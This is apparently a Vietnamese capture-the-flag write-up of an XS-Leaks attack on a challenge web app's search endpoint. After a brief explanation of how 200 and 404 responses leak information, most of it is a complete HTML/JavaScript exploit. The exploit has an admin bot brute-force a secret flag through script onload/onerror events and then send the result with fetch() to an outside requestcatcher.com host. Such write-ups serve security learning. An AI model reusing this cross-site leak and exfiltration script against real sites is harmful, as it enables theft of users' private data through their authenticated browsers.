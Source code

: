 https://xsleaks.dev/

https://book.hacktricks.xyz/pentesting-web/xs-search

![image](https://user-images.githubusercontent.com/86275419/228676870-a991ffc7-45d1-4781-b342-0b5ed9cc5b50.png)

Sau khi đọc một số bài viết thì mình hiểu nôm na rằng lỗ hổng này cho phép hacker sử dụng các thông tin được trao đổi giữa các trang web tưởng chừng như các thông tin đó là vô nghĩa, nhưng từ những thông tin đó hacker có thể sử dụng để suy luận ra những thông tin nhạy cảm

Ta sẽ quay lại web để phân tích tiếp code xem chỗ nào có thể áp dụng XS-Leaks

![image](https://user-images.githubusercontent.com/86275419/228677580-654a4e37-f4b0-44b7-8027-010fbc0964c3.png)

Chức năng Search, khi ta truy vấn db mà không có bản ghi nào trả về thì nó sẽ response lỗi 404, còn nếu có sẽ là 200
+ Ở đây ta để ý trường query lúc nãy mình có giải thích ký tự `%`, bây giờ ta sẽ brute-force từng ký tự của Flag, nếu ký tự đó nằm trong Flag sẽ response 200 còn không thì sẽ response status 404 (error)

Lợi dụng điều này, khi ta sử dụng XS-Leaks nó sẽ sử dụng các Error Events (.onerror(), .onload()) để thể hiện cho chúng ta thấy khi nó request tới một url có xảy ra lỗi (404) hay không (200)

Vector: ta sẽ tạo một trang web chứa một đoạn script thực hiện XS-Leaks và có chức năng gửi lại kết quả cho mình -> gửi link chứa trang web này cho con bot -> bot truy cập link -> script thực hiện trên con bot với ip localhost (`isLocalhost(req)=0` -> `approved=0`) -> bot gửi request và brute-force từng ký tự Flag tại chức năng `Search Query` -> Sau khi brute-force xong, bot gửi lại flag cho mình

Script 

```
<html>
<script>
var ip = '127.0.0.1:1337'; // Only IP
var myWeb = 'https://duypt.requestcatcher.com'; //URL get Flag, change it
var flag = 'HTB{5w33t';
var chars = '-+!@abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_';
var url = `http://${ip}/api/entries/search?q=`

async function getPartialFlag(char){ //Hàm thực hiện gửi request tới url để xem có lỗi hay không
 return new Promise((resolve, reject)=>{
 const script = document.createElement("script");
 script.src = url+encodeURIComponent(flag+char);
 script.onload = () => char==='}' ? reject(char):resolve(char); //Nếu thành công (200) sẽ thực hiện
 script.onerror = () => reject(char); //Nếu không thành công (404) sẽ thực hiện
 document.head.appendChild(script);
 });
}
async function getFlag(chars) {  //Hàm thực hiện brute-force flag
var b = false; var char;
 for(var i=0; i < chars.length; i++){
 char = chars[i];
 await getPartialFlag(char).then((res) => {flag=flag.concat(res); b = res==='}' ? true:false; i=0} , (res)=> { } );
 if(b) break;}

fetch(`${myWeb}/?flag=${flag}`, {method:'get'}); // Thực hiện trả về kết quả cho hacker 
};
getFlag(chars);
</script>
<html>

```
